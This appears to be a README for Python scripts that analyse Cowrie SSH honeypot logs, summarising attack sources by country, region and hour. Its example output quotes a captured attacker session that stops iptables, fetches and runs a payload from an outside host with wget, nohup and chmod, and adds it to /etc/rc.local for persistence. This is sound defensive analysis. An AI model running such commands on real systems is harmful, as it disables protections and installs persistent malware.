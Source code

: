 # Honeypot Log Analysis

- [Setup](#setup)
- [10 Questions](#10-questions)
  * [Run](#run)
- [Depth Analysis](#depth-analysis)
  * [Run](#run-1)
  * [Example Output](#example-output)
- [Breadth Analysis](#breadth-analysis)
  * [Run](#run-2)
  * [EXAMPLE OUTPUT](#example-output)
- [Reference](#reference)

## Setup
Install required modules for the project

```bash
python3 -m pip install -r requirements.txt
```

Copy the log file `honey.log` to the project directory

## 10 Questions
Script [here](analysis.py)

### Run

```bash
python analysis.py
```

## Depth Analysis
Script [here](depthanalysis.py)

Set the IP to be analyzed and the number of sessions to be displayed

```python
TARGET_IP = '139.219.8.223'
NUM_OF_SESSION_TO_DISPLAY = 2
```

### Run

```bash
python depthanalysis.py

```

### Example Output
```bash
IP to be analyzed:  139.219.8.223
number of sessions made: 8
number of sessions by weekday:
Sat 7
Thu 1

SESSIONS WITH THE MOST INTERACTION
 ----------------------------------------------------------------------------------------------------
session ID:  99347df7eb4f
line number in the log that the session starts:  54468
login username:  root
login password:  password

DETAILS
 ----------------------------------------------------------------------------------------------------
Time                       	Event ID                         	Command

...

2020-03-28T12:23:06.129752Z	cowrie.command.input             	service iptables stop
2020-03-28T12:23:10.109464Z	cowrie.command.input             	wget http://139.219.2.19:18211/25000
2020-03-28T12:23:10.564622Z	cowrie.session.file_download.failed	
2020-03-28T12:23:14.106263Z	cowrie.command.input             	chmod 0777 /root/25000
2020-03-28T12:23:18.109980Z	cowrie.command.input             	nohup /root/25000 > /dev/null 2>&1 &
2020-03-28T12:23:22.105162Z	cowrie.command.input             	chmod 777 25000
2020-03-28T12:23:26.106369Z	cowrie.command.input             	./25000
2020-03-28T12:23:26.106905Z	cowrie.command.failed            	./25000

...

2020-03-28T12:26:02.113010Z	cowrie.command.input             	echo "./25000&">>/etc/rc.local

...
```

For this example, the attacker usually attack on Saturday of the system timezone. 

In this example with session ID 99347df7eb4f, the attacker logged in as the root user. The first thing it does, it's to try to stop the firewall of the system

```bash
service iptables stop
```

Then, it goes to download a file called `25000` (a bash script actually) from a remote server. Then it tries to run it in the background.

Finally, the attacker appends the command to execute the script to `rc.local` so that the script will be executed every time the system restart.

```bash
echo "./25000&">>/etc/rc.local
```

In another session, the attacker logged in again as the root user with the same credential. However, this time it downloads a new script called `glt` and then tries to execute it. At the end, it also appends the command to execute this script to the system startup script.

```bash
2020-03-26T17:54:53.964571Z	cowrie.command.input             	wget http://139.219.8.223:12593/glt
```

The attacker downloads yet another script called `SUK`

```bash
2020-03-28T14:03:27.107501Z	cowrie.command.input             	wget http://139.219.8.223:12593/SUK
```


## Breadth Analysis
Script [here](breadthanalysis.py)

Set the number of countries, regions, and hours to be displayed

```python
NUM_OF_COUNTRY_TO_DISPLAY = 3
NUM_OF_REGION_TO_DISPLAY = 5
NUM_OF_HOUR_TO_DISPLAY = 8
```

### Run

```bash
python breadthanalysis.py
```

### EXAMPLE OUTPUT

```
TOTAL ATTACKS:  6304


COUNTRY                  	ATTACKS   	PERCENTAGE %
China                    	2064      	32.74       
France                   	624       	9.90        
United States            	607       	9.63        


CHINA
----------------------------------------------------------------------------------------------------
REGION                   	ATTACKS   	PERCENTAGE %
Beijing                  	1342      	65.02       
Guangdong                	161       	7.80        
Shanghai                 	97        	4.70        
Jiangsu                  	91        	4.41        
Zhejiang                 	63        	3.05        

HOUR                     	ATTACKS   	PERCENTAGE %
00                       	122       	5.91        
18                       	113       	5.47        
19                       	111       	5.38        
21                       	108       	5.23        
01                       	103       	4.99        
17                       	100       	4.84        
04                       	98        	4.75        
11                       	98        	4.75     

...

FRANCE
----------------------------------------------------------------------------------------------------    

HOUR                     	ATTACKS   	PERCENTAGE %
17                       	153       	24.52       
18                       	106       	16.99       

```

For this example, the top 3 most active countries that attacks originate are listed. Most of the attacks come from `China`, which accounts for **32.74%** of the overall attack load.

In a more detailed breakdown, most attacks originate from `Beijing`, which accounts for **65.02%** of the overall attack load within the country. Besides, the attacks are spreadout throughout the day, as there is relatively the same amount of attack load for each hour that orginates from the country.

For the next country in the list, `France`, however, most attacks are carried out between **17 - 18** of the day of the timezone of the system.

## Reference

- [Ipstack](https://ipstack.com) is used for geo information lookup by IP
